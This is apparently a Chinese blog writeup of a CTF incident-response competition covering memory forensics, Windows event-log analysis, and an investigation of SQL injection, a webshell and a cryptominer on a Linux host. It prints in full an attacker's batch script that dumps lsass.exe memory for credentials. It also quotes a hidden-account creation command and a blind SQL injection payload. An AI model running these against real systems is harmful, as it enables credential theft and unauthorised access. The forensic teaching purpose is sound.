---
date:
  created: 2025-07-26
  updated: 2025-10-04
tags:
  - Solar
  - CTF
comments: true
---

# Solar 应急响应赛 7 月 Writeup

其实从上个月开始平台就支持基于远程连接的靶机环境应急响应了，但是很可惜那天考试没能去做qwq

不过这次月赛给的题量也够大，爽赤😃👍

- 时间：7 月 26 日 10:00~18:00
- 附件大小：内存镜像，大小记不清了，反正不大

!!! info "附件分类"

    - VOL_EASY：某 Windows 版本
    - 应急大师：Windows Server 2008
    - 公交车系统攻击事件排查：Linux

## VOL_EASY

附件给出内存镜像，使用 MemProcFS 与 Volatility3 进行挂载与分析。

### 1. 一句话木马密码

文件列表中搜索 `php` 文件即可找到一句话木马。



### 2 - 3: 木马连接工具

在 `Tools` 文件夹发现了蚁剑加载器：

- 连接工具：`Antsword.exe`
- 位置：`C:\Tools\AntSword-Loader-v4.0.3-win32-x64\AntSword.exe`

### 4. 获取到的 FLAG

在管理员用户桌面可找到 flag 为 `flag{ok!get_webshell_is_good_idea~}`。



### 5 - 7: 对外攻击

查找浏览器痕迹，在 `C:\Users\Administrator\AppData\Local\Microsoft\Internet Explorer\Recovery\High\Active` 中可找到名为“图床程序”的网站 `http://192.168.186.140`。入侵时使用的系统用户名即为当前用户名 `Administrator`。

`C:\Users\Administrator\AppData\Roaming\AntSword\Local Storage\leveldb` 的日志文件中有部分蚁剑操作日志，其中执行了 `net user solar$ solar2025 /add`，对应的账户密码为 `solar2025`。

### 8 - 10: 靶机操作程序

在残存的日志中发现 `dump_lass.bat` 这一批处理文件名，应该是在远程靶机执行的，但仍在内存中寻找到了该文件：

```batch
@echo off
echo [*] 正在获取 lsass.exe PID...

for /f "tokens=2 delims=," %%a in ('tasklist /FI "IMAGENAME eq lsass.exe" /FO CSV /NH') do (
    set PID=%%~a
)

if "%PID%"=="" (
    echo [!] 未找到 lsass.exe 进程，或没有权限。
    pause
    exit /b 1
)

echo [*] PID: %PID%
echo [*] 正在尝试导出内存转储...

set OUTPUT=%~dp0lsass.dmp

rundll32.exe comsvcs.dll, MiniDump %PID% %OUTPUT% full

if exist "%OUTPUT%" (
    echo [✓] 成功导出 lsass 内存为: %OUTPUT%
) else (
    echo [!] 导出失败，可能权限不足。
)

pause
```

题中提及的“重要程序”即为 `lsass.exe`。

考虑到无法访问到远程服务器，而使用蚁剑终端执行的命令回显可能仍在内存中，使用十六进制编辑器直接打开内存文件搜索 `lsass`，便可发现该脚本的输出：



`lsass.exe` 的 PID 为 `456`，转储保存在 `C:\phpstudy_pro\WWW\lsass.dmp`。

## 应急大师

### 1. 隐藏用户

使用 VNC 登录远程桌面时，即可在欢迎屏幕找到隐藏用户 `solar$`。



### 2. IP 溯源

浏览网页服务器目录下的 `nginx.log.txt` 日志，通过连接中断的记录可以找到攻击者 IP 为 `192.168.186.139`。



### 3. 一句话木马

在网页服务器 `C:\phpstudy_pro\WWW\uploads` 目录下可找到上传的一句话木马：



密码为 `solar2025`。

### 4 - 7: 事件分析

在事件查看器的`安全`分类中查看隐藏账户与登录相关的日志记录。搜索 `solar$` 关键词，即可找到账户创建记录，从中亦可获得 TargetSid。





在事件列表中寻找加入用户组的事件，从下到上能发现其加入了 `None`、`Users`、`Administrators` 三个用户组，其中 `None` 用户组在提交时因不正确而排除，答案为 `Users-Administrators`。

远程桌面登录相关的事件 ID 为 1149（远程登录）与 4624（登录事件），据此结合用户名搜索可找到对应的登录记录（IP 地址与端口非回环）。



IP 地址为 `192.168.186.139:49197`。

## 公交车系统攻击事件排查

### 1. SQL 注入爆破

简单浏览流量，攻击者使用 SQLmap 进行爆破。

`/var/log/apache2/access.log` 记录了所有请求细节，可以从中提取爆破过程与正确信息。做题过程中笔者将日志中的 URL 先进行了解码，便于进一步处理。

```py
import base64

lines = []
output: list[str] = []

with open("download.log", "r") as f:
    lines = f.readlines()
    f.close()

for l in lines:
    start = l.find("query=")
    end = l.find(" HTTP")

    if start != -1 and end != -1:
        query = l[start+6:end+1]
        # print(query)

        try:
            dq = base64.b64decode(query)
            print(dq.decode())
            output.append(f"{dq.decode()}\n")
        except:
            pass

with open("sqled.log", "w") as ff:
    ff.writelines(output)
    ff.close()
```

提取出典型的记录如下：

```sql
' AND (SELECT 8495 FROM (SELECT(SLEEP(1-(IF(ORD(MID((SELECT IFNULL(CAST(username AS NCHAR),0x20) FROM bus_system.bus_drivers ORDER BY password LIMIT 2,1),1,1))>64,0,1)))))mXas) AND 'nOQP'='nOQP
```

SQLmap 在攻击过程中会对数据按条按位进行猜测（此过程中条件使用**大于**），在找到正确的信息后会使用**不等于**条件进行验证，因此直接在 `username` 对应字段搜索 `!=` 即可很快找到前两个用户名。

```py
a = [115, 117, 110, 121, 117, 101]
b = [99, 104, 101, 110, 104, 97, 111]
```

转换出来分别是 `sunyue` 与 `chenhao`。

### 2. FTP 服务

该流量中的 FTP 信息明文传输，集中在整个附件的后半段。简单查找后在 7075 流发现了 FTP 列出文件的记录，向后查看即可获得文件内容。





### 3 - 5: WebShell + 挖矿木马分析

攻击者上传的 WebShell 位于 `/var/www/html/public/uploads/shell1.php`：



得到密码为 `woaiwojia`。

经由 WebShell 交换的数据使用了 Base64 加解密与固定密钥的按位异或，解密起来较为简单。需要注意的是，后续流量均使用了 GZip 压缩，在处理时也需考虑在内：

```py
import base64
import gzip
import io

def decode(data: bytes, key: bytes) -> bytes:
    """
    解密函数（与 PHP encode 完全对称）
    :param data: 密文 bytes
    :param key:  密钥 bytes
    :return:     明文 bytes
    """
    kl = len(key)
    if kl < 16:
        # 若密钥不足 16 字节，按 PHP 逻辑循环使用（也可按需填充）
        key = (key * ((16 // kl) + 1))[:16]

    out = bytearray()
    for i, ch in enumerate(data):
        k = key[(i + 1) & 15]
        out.append(ch ^ k)
    return bytes(out)

if __name__ == '__main__':
    original_base = input()

    original = base64.b64decode(original_base.encode())
    print(original)
    key = b"3c6e0b8a9c15224a"

    # 模拟加密（用同一函数）
    encrypted = decode(original, key)

    try:
        with gzip.GzipFile(fileobj=io.BytesIO(encrypted)) as f:
                plain = f.read()
        print("解压后明文：", plain)
    except Exception as e:
        print("解压失败：", e)
```

由题中指出“在用户访问后消耗用户的资源进行挖矿”，可以推断木马代码在前端。

网页服务器前端目录位于 `/var/www/html/public`，审计代码中发现 `index.php` 有多余的脚本，如下图：



将其格式化后可以发现其中有一个整数数组，怀疑对应的是字符 ASCII 码：



将其进行转化即可得到矿池地址 `gulf.moneroocean.stream:10128`。

网页源代码中的恶意代码通常也是经由 WebShell 上传的，于是继续分析流量，可在 7102 流处的请求信息中找到原上传文件名为 `map.php`。


